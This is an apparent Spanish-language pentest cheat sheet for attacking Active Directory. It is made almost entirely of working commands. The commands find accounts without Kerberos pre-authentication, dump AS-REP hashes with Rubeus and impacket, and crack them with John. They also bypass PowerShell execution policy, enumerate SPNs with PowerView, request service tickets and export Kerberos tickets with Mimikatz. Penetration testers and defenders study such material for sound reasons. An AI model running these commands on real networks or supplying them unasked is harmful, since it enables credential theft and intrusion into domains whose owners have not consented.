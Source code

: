 **Identificar usuarios con la opcion DONT_REQ_PREAUTH valida**
```powershell
Get-DomainUser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }
```

**Realizar Ataque As-Rep Roasting**
```powershell
# Herramienta Rubeus
.\Rubeus.exe asreproast /user:johnny /outfile:jonnyhash.txt

# Set Impacket
impacket-GetNPUsers -no-pass -usersfile user.txt domain.local/
```

**Password Cracking**
```powershell
.\john.exe .\johnhash.txt --format=krb5asrep -wordlist=.\10k-worst-pass.txt
```
#### [[KERBEROASTING]]
**Importar Modulo Powerview**
```powershell
# Permisos bypass powershell
powershell -ep bypass

# Importamos el moudulo
. .\PowerView.ps1
```

**Enumeración de SPNs**
```powershell
# Lista Todos los posibles usuario filtrando por los cuales tiene el SPN iniciado
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
setspn -T research -Q */*
```

**Mostrar todos los tickets de Kerberos en la sesión actual**
```powershell
klist
```

**Pedir TGS Ticket para SPN especifico usando Kerberos**
```powershell
# Agregamos el ensamblado System.IdentityModel
Add-Type -AssemblyName System.IdentityModel

# Crear un objeto de tipo KerberosRequestorSecurityToken
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList “ops/research.SECURITY.local:1434”
```

**Extraer los Kerberos Tickets**
```powershell
# Importar modulo Mimikatz
. .\Invoke-Mimikatz.ps1

# Enumerar todos los vales de Kerberos y exportarlos para su uso posterior
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
